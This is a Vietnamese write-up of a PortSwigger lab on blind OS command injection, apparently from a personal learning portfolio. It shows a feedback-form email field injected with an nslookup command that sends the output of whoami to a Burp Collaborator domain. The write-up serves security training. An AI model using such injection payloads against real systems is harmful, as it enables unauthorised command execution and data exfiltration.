 # Write-up: Blind OS command injection with out-of-band data exfiltration

### Tổng quan
Khai thác lỗ hổng blind OS command injection trong chức năng feedback, sử dụng kỹ thuật out-of-band interaction để thực thi lệnh nslookup và lấy kết quả whoami qua Burp Collaborator.

### Mục tiêu
- Thực thi lệnh `nslookup` để gây ra DNS lookup tới Burp Collaborator và lấy tên người dùng hiện tại.

### Công cụ sử dụng
- Burp Suite Pro    
- Firefox Browser 

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Gửi feedback bất kỳ, bắt yêu cầu POST tới `/feedback/submit` trong Burp Proxy HTTP History:
    - Gửi yêu cầu này tới Repeater để thử nghiệm.
    ![lỗi](./images/fb.png)

2. **Khai thác (Exploitation)**
- Thay đổi tham số `email` để chèn lệnh `nslookup` với tên miền Burp Collaborator:
    ```
    email=test%40gamil.com& nslookup `whoami`.wrr5mv5jhxx61ib48ddth7p8yz4qsgg5.oastify.com &
    ```
- Gửi yêu cầu trong Repeater:
    ![send](./images/send.png)
    - **Kết quả**: Kiểm tra Burp Collaborator, nhận DNS lookup với nội dung `peter-OG3pDw`, xác nhận lệnh `whoami` được thực thi, hoàn thành lab:
    ![whoami](./images/peter.png)
    ![solved](./images/solved.png)

### Bài học rút ra
- Hiểu cách khai thác blind OS command injection bằng out-of-band interaction khi không có output trực tiếp.
- Nhận thức tầm quan trọng của việc kiểm tra và lọc dữ liệu người dùng trước khi thực thi lệnh hệ thống.

### Tài liệu tham khảo
- PortSwigger: OS command injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác blind OS command injection, sử dụng out-of-band interaction để thực thi lệnh nslookup và lấy kết quả qua Burp Collaborator. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 5/2025.*
